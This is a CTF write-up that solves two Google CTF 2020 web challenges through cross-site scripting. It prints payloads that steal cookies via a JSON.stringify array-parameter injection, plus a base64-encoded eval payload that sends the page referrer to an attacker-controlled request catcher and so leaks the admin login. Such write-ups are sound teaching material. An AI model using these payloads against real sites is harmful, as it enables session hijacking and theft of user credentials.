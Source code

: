 ```yaml
---
layout: post
title: googleCTF2020 web challenges writeup
date: 2020-08-23 16:28 +0300
author: pop_eax
categories: ["ctf-writeup", "web", "XSS"]
---
```


# PASTEURIZE

this was the easiest web challenge in the CTF

![decription](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/chall-info.png)

we have a paste sharing site

![main](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/main-site.png)

sharing a paste, we find that we can share our pastes with the admin (TJMike)<br/>

![paste](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/paste.png)

*interesting*

from what I have now, I can see that XSS is what I am supposed to look for
<br/>when testing for xss I always throw this payload to see how the sanitaization is being done
```html
<script>alert(1);</script>
```

checking the source code verifies the input is getting sanitaizied

<br/>while reading the source code I realized I missed that comment

![comment](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/comment.png)<br/>

![source-code](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/source-code.png)

looking at it I was able to verify that the sanitaization is only done on client side with DOMpurify

![DOMpurify](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/dompurify.png)

I tried to bypass DOMpurify and read the source code, but that led to nothing since the version used in here is safe.

at this point I thought to myself<br/>
DOMpurify shouldn't be bypassed since it's a really good project used everywhere
and the high number of solves to the challenge doesn't make me feel like we need to discover a 0day for such an easy challenge.<br/>

so I took it simply, and reviewd everything I have simply then an idea clicked in my mind 

```js
const note = "asdasd";
const note_id = "cb33322e-4b48-4d0f-a748-1e509be9645d";
const note_el = document.getElementById('note-content');
const note_url_el = document.getElementById('note-title');
const clean = DOMPurify.sanitize(note);
note_el.innerHTML = clean;
note_url_el.href = `/${note_id}`;
note_url_el.innerHTML = `${note_id}`;
```
what if we put a `"` in our input and get a DOM based XSS

![escaped](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/escaped.png)

aaand it's getting escaped.<br/>

*is that the end of it then ?*<br/>
nope, it's not I went back the server side source code and I saw something interesting

```js
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```
the comment was interesting, when I first looked at it I felt like it's a useless thing
since it encodes the greater/less than signs.

but the comment felt odd at this point, so I tried to play with the code locally.

![locally](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/locally.png)

now I understood why the slice is important.
I looked at examples online for JSON.stringify and saw that there's only 1 case that doesn't start with `"` which is when passing an object to it.

![object](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/object.png)

I fired up burp suite and sent a json object and the quotes wasn't there :( <br/>
that's because my input is getting passed to the backend as a string not as an object

![req](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/req.png)
![res](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/res.png)

I did some research and then I remembered that I can send raw objects with `param[]=thing` in http.

![req](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/evil-req.png)
![res](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/evil-res.png)

DONE

crafting this payload
```js
content[]=;alert(1);//
```

![alert](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/alert.png)
![alerted-source](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/alerted-source.png)

now time to hack TJMike
```js
content[]=;new Image().src="http://domain/"+(document.cookie);//
```

![flag](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/pasteurize/flag.png)

___

# TECH SUPPORT

![desc](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/desc.png)

this challenge was fairly simple but it had a lot of rabbit holes which was really interesting.

the app is a normal site with a admin chat service too
so basically it's xss

we have the following features: 

![features](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/features.png)

/flag

![flag-thing](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/flag-thing.png)

¯\\\_(ツ)_/¯


/me (profile)

![me](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/me.png)

in here I updated the address with this payload

```html
<script>alert(1);</script>
```

and it worked :) . <br/>
but that was so useless, since it's a self XSS and by no way the admin can access it since the address value is stored in the cookies.

**(╯°□°）╯︵ ┻━┻**

/chat (the interesting thing)

![chat](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/chat.png)

now inputting the pervious payload didn't really work
so I tried this

```html
<img src=X onerror=alert(1)>
```

*isn't this another self xss ?*<br/>
I thought the same too don't worry.

after submitting the form I new window popped up, which felt interesting<br/>
~~it's literally useless btw~~

![chat](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/chat-window.png)

now I got a random thought of trying to send an legit image and to check who fetches it

```html
<img src=domain.com>
```

and I got 2 requests :)

![reqs](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/reqs.png)

at this point I tried to grab the /flag and send to my server and it didn't work.<br/>
after researching it I realized it's not working because the XSS is triggering on another domain which is typeselfsub.web.ctfcompetition.com . <br/>

at this point I was trying to do some weird magical stuff like SOP bypasses and I thought about redirecting to the self xss at my profile somehow <br/>

***all of that is useless***

after sending a lot of requests I thought about leaking more info from what we have<br/>
so I started getting `document.thing` stuff and `document.referrer` returned something cool

the payload

```html
<img src=X onerror=eval(atob("d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8veG9yZWF4LmZyZWUuYmVlY2VwdG9yLmNvbS9sZWFrP3E9IiArIGRvY3VtZW50LnJlZmVycmVy"))>
```

spaces started messing, how the payload works so I base64 encoded it
so I decoded it with `atob` and executed it with `eval`
the decoded value

```js
window.location = "https://domain.com/leak?q=" + document.referrer
```

P.S: you can base64 encode in javascript with `btoa`

I got the following url from the bot
```
https://typeselfsub.web.ctfcompetition.com/asofdiyboxzdfasdfyryryryccc?username=mike&password=j9as7ya7a3636ncvx&reason={mypayload here}
```

then I went to that url and it auto logged me as admin :P

![admin](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/admin.png)

now going to /flag

![flag](https://github.com/pop-eax/blog/raw/gh-pages/images/googleCTF20/tech-support/flag.png)

and DONE

## references

[xss](https://portswigger.net/web-security/cross-site-scripting/)<br/>
tool used to get http requests [beeceptor](http://beeceptor.com/)